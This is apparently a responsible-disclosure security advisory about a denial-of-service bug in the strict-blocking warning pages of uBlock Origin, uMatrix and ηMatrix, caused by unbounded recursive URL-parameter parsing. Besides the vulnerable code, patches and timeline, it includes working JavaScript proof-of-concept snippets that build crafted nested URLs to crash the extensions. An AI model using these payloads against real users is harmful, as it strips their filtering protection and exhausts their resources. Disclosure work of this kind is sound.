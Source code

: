 = uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]


== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.

*Edit*: uMatrix 1.4.2 has been released with a fix for the vulnerability, though the uMatrix GitHub repository remains archived.


== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page
image::images/ubo_strict_blocking_warning_page.png[uBO's strict-blocking warning page. The page displays a URL that contains a few levels of nested parameters and the parsed representations of those parameters.]

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix maintenance

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

*Edit*: uMatrix 1.4.2 was tagged a few days after this post was published.
Users who disabled filter lists on the "Assets" tab in the uMatrix dashboard can re-enable the lists after upgrading.


== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----


== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post
* 2021-07-19 - gorhill pushed a fix for uMatrix and tagged 1.4.2
* 2021-07-20 - JustOff pushed a fix for uBO (Legacy) and tagged 1.16.4.30


== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for preparing a uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]
